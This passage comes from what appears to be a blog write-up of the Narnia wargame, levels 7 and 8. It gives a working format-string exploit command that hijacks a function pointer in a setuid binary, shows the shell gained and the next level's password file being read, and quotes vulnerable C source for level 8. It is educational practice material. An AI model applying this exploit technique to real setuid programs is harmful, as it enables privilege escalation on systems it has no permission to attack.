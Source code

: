 And now we need to run it from the commandline to actually get a proper setuid shell

{% highlight console %}
narnia7@melinda:/narnia$ .//narnia7 $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*5 + '%134514399d%n'")
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706

before : ptrf() = 0x80486e0 (0xffffd61c)
I guess you want to come to the hackedfunction...
Welcome to the goodfunction, but i said the Hackedfunction..
narnia7@melinda:/narnia$ .//narnia7 $(python -c "print 'aaaa\x1c\xd6\xff\xff' + '%x'*5 + '%134514399d%n'")
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706

before : ptrf() = 0x80486e0 (0xffffd61c)
I guess you want to come to the hackedfunction...
Way to go!!!!$ whomai
/bin/sh: 1: whomai: not found
$ whoami
narnia8
$ cat /etc/narnia_pass/narnia8 
[password]
{% endhighlight %}

Notice that the address of `ptrf` is not the same in the shell :)

## Level 08 ##

{% highlight c linenos %}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
// gcc's variable reordering fucked things up
// to keep the level in its old style i am 
// making "i" global unti i find a fix 
// -morla 
int i; 

void func(char *b){
    char *blah=b;
    char bok[20];
    //int i=0;
    
    memset(bok, '\0', sizeof(bok));
    for(i=0; blah[i] != '\0'; i++)
        bok[i]=blah[i];

    printf("%s\n",bok);
}

int main(int argc, char **argv){
        
    if(argc > 1)       
        func(argv[1]);
    else    
    printf("%s argument\n", argv[0]);

    return 0;
}

{% endhighlight %}

I'm struggling with this, and rather than delay the whole post because of the last
level, I decided to post anyway. I'll update this when I have this figured out.

Sorry.
